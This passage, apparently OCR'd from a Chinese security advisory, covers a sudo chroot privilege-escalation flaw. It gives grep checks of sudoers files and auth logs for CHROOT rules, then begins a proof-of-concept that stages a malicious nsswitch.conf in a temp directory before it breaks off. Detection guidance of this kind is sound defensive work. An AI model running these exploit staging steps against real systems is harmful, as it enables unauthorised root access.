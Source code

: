   
 或 
```
runchroot=*
```

  
 规则：  

```
grep -r &#34;CHROOT=&#34; /etc/sudoers /etc/sudoers.d/ 2>/dev/null
grep -r &#34;runchroot=&#34; /etc/sudoers /etc/sudoers.d/ 2>/dev/null

```

  
若存在相关规则，系统可能面临更高风险。  
### 3.3 检查日志中的 chroot 使用记录  
  
查看系统日志（如 
```
/var/log/auth.log
```

  
 或 
```
/var/log/secure
```

  
）中是否有 
```
CHROOT=
```

  
 记录：  

```
grep &#34;CHROOT=&#34; /var/log/auth.log /var/log/secure 2>/dev/null

```

### 3.4 漏洞验证（PoC 测试）  
  
**警告**  
：此操作可能触发漏洞，仅限授权测试环境使用！非安专业人员请勿测试。  
1. 创建临时目录并编写恶意 
```
nsswitch.conf
```

  
：  

```
STAGE=$(mktemp -d /tmp/sudowoot.XXXXXX)
mkdir -p $STAGE/woot/etc
echo &#34;passwd: /woot1337&#34; > $STAGE/woot/etc/nsswitch.conf

```
